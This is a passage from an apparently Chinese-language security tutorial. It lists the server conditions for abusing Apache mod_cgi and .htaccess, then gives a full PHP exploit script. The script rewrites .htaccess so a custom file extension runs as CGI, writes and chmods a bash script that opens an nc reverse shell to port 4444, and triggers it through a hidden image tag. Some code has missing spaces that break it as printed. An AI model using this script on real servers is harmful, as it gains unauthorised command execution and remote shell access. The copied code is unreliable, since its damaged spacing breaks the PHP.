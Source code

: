 或者

1.  mod_cgi已经启用 
2.  必须允许.htaccess文件 , 在httpd.conf中，要注意AllowOverride选项为All 
3.  必须有权限写.htaccess文件

### 利用脚本

```php
<?php
$cmd = "nc -c'/bin/bash' 127.0.0.1 4444"; //反弹一个shell出来，这里用本地的4444端口
$shellfile ="#!/bin/bash\n"; //指定shell
$shellfile .="echo -ne \"Content-Type: text/html\\n\\n\"\n"; //需要指定这个header，否则会返回500
$shellfile .="$cmd"; 
functioncheckEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ?$yes : $no) . "<br>\n";
}
if(!isset($_GET['checked']))
{
    @file_put_contents('.htaccess',"\nSetEnv HTACCESS on", FILE_APPEND); 
    header('Location: ' . $_SERVER['PHP_SELF']. '?checked=true'); //执行环境的检查
}
else
{
    $modcgi = in_array('mod_cgi',apache_get_modules()); // 检测mod_cgi是否开启
    $writable = is_writable('.'); //检测当前目录是否可写
    $htaccess = !empty($_SERVER['HTACCESS']);//检测是否启用了.htaccess
        checkEnabled("Mod-Cgienabled",$modcgi,"Yes","No");
        checkEnabled("Iswritable",$writable,"Yes","No");
        checkEnabled("htaccessworking",$htaccess,"Yes","No");
    if(!($modcgi && $writable&& $htaccess))
    {
        echo "Error. All of the above mustbe true for the script to work!"; //必须满足所有条件
    }
    else
    {
       
 checkEnabled("Backing 
up.htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded!Saved in 
.htaccess.bak","Failed!"); //备份一下原有.htaccess
        
checkEnabled("Write 
.htaccessfile",file_put_contents('.htaccess',"Options 
+ExecCGI\nAddHandlercgi-script 
.dizzle"),"Succeeded!","Failed!");//.dizzle，我们的特定扩展名
        checkEnabled("Write shellfile",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!");//写入文件
        checkEnabled("Chmod777",chmod("shell.dizzle",0777),"Succeeded!","Failed!");//给权限
        echo "Executing the script now.Check your listener <img src = 'shell.dizzle' style ='display:none;'>"; //调用
    }
}
?>
```
